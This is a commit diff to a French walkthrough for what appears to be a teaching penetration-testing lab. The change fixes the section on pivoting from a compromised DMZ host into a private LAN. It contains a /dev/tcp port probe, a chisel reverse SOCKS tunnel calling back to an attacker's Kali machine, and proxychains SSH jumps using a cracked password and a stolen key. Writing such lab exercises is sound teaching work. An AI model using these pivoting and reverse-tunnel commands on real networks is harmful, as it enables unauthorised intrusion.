

Before and after one commit to NicolasTrp/AMSI_Decouverte_M1, a Markdown page: docs/walkthrough.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
docs(walkthrough): corrige le pivot — web01 n'expose aucun compte SSH
ssh -J ...@web01 ne marche pas (root verrouillé, www-data sans shell). Le
franchissement DMZ→LAN se fait par le shell déjà obtenu sur web01 (chisel/
proxychains, ou action directe depuis web01). ssh -J ne sert qu'à rebondir
DANS le LAN via a.pommier@files, une fois le tunnel établi.

Co-Authored-By: Claude Opus 4.8 <noreply@anthropic.com>

````diff
--- a/docs/walkthrough.md
+++ b/docs/walkthrough.md
@@ -99,25 +99,33 @@ cat /root/flag_root.txt
 
 web01 possède une **route vers le LAN** (`172.31.20.0/24 via 172.31.10.2`, posée par
 son entrypoint avec `NET_ADMIN`). Le LAN n'est **pas publié** : on l'atteint **par
-web01**. Trois approches, du plus simple au plus robuste :
+web01**. ⚠️ web01 n'expose **aucun compte SSH** (root verrouillé, `www-data` sans
+shell) : on ne « saute » donc **pas** par un `ssh -J ...@web01`. On pivote par le
+**shell déjà obtenu** sur web01 (www-data → root). Deux approches :
 
 ```bash
-# 1) Reco depuis le shell web (déjà sur place)
+# 1) Reco depuis le shell web (déjà sur place, sans rien téléverser)
 for h in 11 12; do (echo > /dev/tcp/172.31.20.$h/22) 2>/dev/null && echo "172.31.20.$h:22 ouvert"; done
 #   → .11 (files: 445/22), .12 (admin: 22)
+#   web01 a aussi un client ssh + smbclient : on peut déjà agir DIRECTEMENT depuis lui.
 
-# 2) Tunnel SOCKS avec chisel (téléverser le binaire via le shell web, puis) :
+# 2) Tunnel SOCKS avec chisel (méthode reine — outils de la Kali via le pivot) :
 #    Kali:   ./chisel server -p 8000 --reverse
-#    web01:  ./chisel client <IP_KALI>:8000 R:1080:socks
+#    web01:  ./chisel client <IP_KALI>:8000 R:1080:socks      # lancé depuis le shell web
 #    Kali:   proxychains smbclient -N -L //172.31.20.11
 #            proxychains ssh -i id_admin c.vasseur@172.31.20.12
 
-# 3) Rebond SSH par sauts (-J) une fois qu'on a un accès SSH sur web01/files :
-#    ssh -J a.pommier@$WEB_IP a.pommier@172.31.20.11
+# 3) ssh -J devient utile UNE FOIS qu'on a un VRAI compte SSH dans le LAN :
+#    files expose le compte a.pommier (mdp craqué) → on peut rebondir par files
+#    pour atteindre admin (via le tunnel de l'étape 2) :
+#    proxychains ssh -J a.pommier@172.31.20.11 -i id_admin c.vasseur@172.31.20.12
 ```
 
 > Pédagogie : l'important est de **comprendre** qu'on rebondit par la machine
-> compromise. Tous les chemins (chisel/proxychains, `ssh -D`, `ssh -J`) sont acceptés.
+> compromise. Le franchissement DMZ→LAN se fait par le **shell sur web01** (chisel/
+> proxychains, ou en agissant directement depuis web01) — pas par un saut SSH sur
+> web01 qui n'a aucun compte exposé. `ssh -J` ne sert qu'à rebondir **dans** le LAN
+> (via `a.pommier@files`) une fois le tunnel établi.
 
 ---
 
````
